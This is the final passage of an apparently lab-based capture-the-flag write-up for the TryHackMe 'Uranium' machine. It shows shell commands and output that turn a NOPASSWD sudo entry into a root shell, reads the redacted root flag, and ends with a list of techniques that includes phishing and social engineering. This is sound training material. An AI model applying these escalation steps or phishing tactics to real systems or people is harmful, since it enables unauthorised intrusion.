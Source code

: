 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Uranium-CTF/images/Pasted%20image%2020230217164407.png)

```shell
kral4@uranium:/home/kral4$ sudo -l
Matching Defaults entries for kral4 on uranium:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kral4 may run the following commands on uranium:
    (root) NOPASSWD: /bin/bash
```

**Boom! We can spawn a Bash shell as root!**
```shell
kral4@uranium:/home/kral4$ sudo /bin/bash
root@uranium:/home/kral4# whoami;hostname;id;ip a
root
uranium
uid=0(root) gid=0(root) groups=0(root)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:c5:fc:b9:fc:6f brd ff:ff:ff:ff:ff:ff
    inet 10.10.180.31/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2609sec preferred_lft 2609sec
    inet6 fe80::c5:fcff:feb9:fc6f/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm root! :D

## Rooted

**root.txt:**
```shell
root@uranium:/home/kral4# cat /root/root.txt 
thm{Redacted}
```

# Conclusion

What we've learned:

1. OSINT (Open-source intelligence) In Twitter
2. Sending A Phishing Email To Gain Initial Foothold
3. Leaking Password Via Social Engineering
4. Horizontal Privilege Escalation via Misconfigurated Sudo Permission
5. Analyzing Traffics Via WireShark In A `pcap` File
6. Read & Write Files Via SUID `dd` Binary
7. Vertical Privilege Escalation via SUID `nano` Binary